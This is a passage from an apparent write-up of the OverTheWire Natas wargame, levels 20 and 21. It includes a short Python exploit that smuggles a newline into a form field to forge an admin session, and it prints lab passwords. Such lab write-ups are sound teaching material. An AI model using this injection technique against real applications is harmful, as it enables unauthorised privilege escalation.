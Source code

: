 1. converts the serialized data to a dictionary

2. Sets the file permissions to [`0600`](https://chmodcommand.com/chmod-0600/). `600` in octal when converted to binary gives `110 000 000` with each triplet of the form `(read, write, execute)` and the triplets in the order `(owner, group, others)`. Thus, only the owner may read and write to this file.

A few tests reveal some extra facts:

1. At the beginning of the session, a PHPSESSID is alloted. A file name is created and contents of the form are written to the form.

2. There is no escaping and parsing to the user data in the form.

3. Reading from the file is of the form `READ [name admin]` implying file stores contents separated by a space.

The exploit-

```python
def exploit():

    sess = requests.Session()

    auth_username = 'natas20'
    auth_password = 'eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF' 
    _payload = {'name' : 'admin\nadmin 1'}
    response = sess.post('http://natas20.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth(auth_username, auth_password), data=_payload)
    dissect_response(response) 

    response = sess.get('http://natas20.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth(auth_username, auth_password))
    dissect_response(response) 
```

This causes a new line to be written to the file. The second `GET` causes the `myread` function to read from this file and store in the `SESSION` variable the key-value pairs. Hence we get `admin => 1` and thus the password. 


Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ

# Level 21

## PHP session hijacking in colocated websites

URL: http://natas21.natas.labs.overthewire.org

This is collocated with http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug.

Contents of original website

```php
<?

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
/* }}} */

session_start();
```